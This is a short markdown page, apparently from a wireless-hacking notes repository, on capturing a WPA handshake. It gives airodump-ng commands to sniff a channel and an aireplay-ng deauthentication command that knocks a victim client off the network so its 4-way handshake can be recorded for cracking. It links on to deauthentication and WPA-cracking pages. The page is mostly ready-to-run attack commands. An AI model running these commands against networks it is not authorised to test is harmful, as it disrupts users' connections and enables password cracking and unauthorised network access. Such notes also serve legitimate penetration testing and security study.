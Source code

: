 # Capture the Handshake
Sniffing the network traffic

```sh
sudo airodump-ng -c <channel> -w wpa_file wlan0mon
# Do not close this window
```

[Make a Deauthentication Attack](../Deauthentication%20Attack.md)

```sh
sudo aireplay-ng -0 1 -c <client_mac> -a <bssid> wlan0mon
# Do not close this window
```

If the victim STA is inside the reachable are of your wireless card, it will forced to rejoin the network and you should be able to get a new 4-way handshake.

[Now we Crack it](./WPA%20Cracking.md)